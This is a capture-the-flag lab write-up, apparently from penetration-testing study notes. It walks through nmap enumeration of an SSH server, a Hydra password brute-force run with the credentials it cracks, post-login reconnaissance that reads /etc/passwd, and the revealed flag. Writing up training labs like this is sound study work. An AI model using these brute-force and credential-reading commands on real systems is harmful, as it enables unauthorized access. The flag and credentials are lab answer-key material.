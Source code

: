 # 🔬SSH

## Lab 1

>  🔬 [SSH Login](https://attackdefense.com/challengedetails?cid=1526)
>
>  - Target IP: `192.63.218.3`
>  - **Brute-force** of [OpenSSH](https://www.openssh.com/) server
>  - **Enumeration and nmap scripts** have been already covered in this [SSH Enum lab](../../../assessment-methodologies/3-enumeration/ssh-enum.md)

### Enumeration

```bash
ip -br -c a

nmap -sV 192.63.218.3
```

```bash
22/tcp open  ssh  OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
```

> 📌 OpenSSH 7.9p1 cannot be exploited directly

### Brute-Force

- Metasploit `ssh_login` module or `Hydra` tool can be utilized for brute forcing the SSH password

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 192.63.218.3 -t 4 ssh
```

```bash
[22][ssh] host: 192.63.218.3   login: sysadmin   password: hailey
[STATUS] 77.00 tries/min, 77 tries in 00:01h, 273 to do in 00:04h, 4 active
[22][ssh] host: 192.63.218.3   login: rooty   password: pineapple
[...]
```

- Login to the target via SSH

```bash
ssh sysadmin@192.63.218.3
```

```bash
groups sysadmin
cat /etc/*release
uname -r
cat /etc/passwd
find / -name "flag"
cat /flag
```

<details>
<summary>Reveal Flag: 🚩</summary>



`eb09cc6f1cd72756da145892892fbf5a`

![](assets/image-20230319165718497.png)

</details>

------

